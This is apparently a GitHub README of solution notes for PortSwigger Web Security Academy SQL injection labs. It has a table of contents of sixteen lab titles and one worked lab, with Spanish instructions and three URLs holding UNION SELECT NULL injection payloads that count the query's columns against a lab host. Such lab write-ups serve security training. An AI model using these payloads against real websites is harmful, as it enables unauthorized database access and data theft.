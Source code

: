 # PORTSWIGGER LABS

## Table of contents

- [PORTSWIGGER LABS](#portswigger-labs)
  - [SQL INJECTION](#sql-injection)
    - [SQL injection UNION attack, determining the number of columns returned by the query](#sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query)
    - [SQL injection UNION attack, finding a column containing text](#sql-injection-union-attack-finding-a-column-containing-text)
    - [SQL injection UNION attack, retrieving data from other tables](#sql-injection-union-attack-retrieving-data-from-other-tables)
    - [SQL injection UNION attack, retrieving multiple values in a single column](#sql-injection-union-attack-retrieving-multiple-values-in-a-single-column)
    - [SQL injection attack, querying the database type and version on Oracle](#sql-injection-attack-querying-the-database-type-and-version-on-oracle)
    - [SQL injection attack, querying the database type and version on MySQL and Microsoft](#sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft)
    - [SQL injection attack, listing the database contents on non-Oracle databases](#sql-injection-attack-listing-the-database-contents-on-non-oracle-databases)
    - [SQL injection attack, listing the database contents on Oracle](#sql-injection-attack-listing-the-database-contents-on-oracle)
    - [Blind SQL injection with conditional responses](#blind-sql-injection-with-conditional-responses)
    - [Blind SQL injection with conditional errors](#blind-sql-injection-with-conditional-errors)
    - [Blind SQL injection with time delays](#blind-sql-injection-with-time-delays)
    - [Blind SQL injection with time delays and information retrieval](#blind-sql-injection-with-time-delays-and-information-retrieval)
    - [Blind SQL injection with out-of-band interaction](#blind-sql-injection-with-out-of-band-interaction)
    - [Blind SQL injection with out-of-band data exfiltration](#blind-sql-injection-with-out-of-band-data-exfiltration)
    - [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](#sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
    - [SQL injection vulnerability allowing login bypass](#sql-injection-vulnerability-allowing-login-bypass)

## SQL INJECTION

### SQL injection UNION attack, determining the number of columns returned by the query

Para resolver el laboratorio, determine el número de columnas devueltas por la consulta realizando un ataque UNION de inyección SQ que devuelve una fila adicional que contiene valores nulos.

```sql
https://ac541fff1fc8151980566b1e000c00e0.web-security-academy.net/filter?category='+UNION+SELECT+NULL--

https://ac541fff1fc8151980566b1e000c00e0.web-security-academy.net/filter?category='+UNION+SELECT+NULL,NULL--

https://ac541fff1fc8151980566b1e000c00e0.web-security-academy.net/filter?category='+UNION+SELECT+NULL,NULL,NULL--
```
 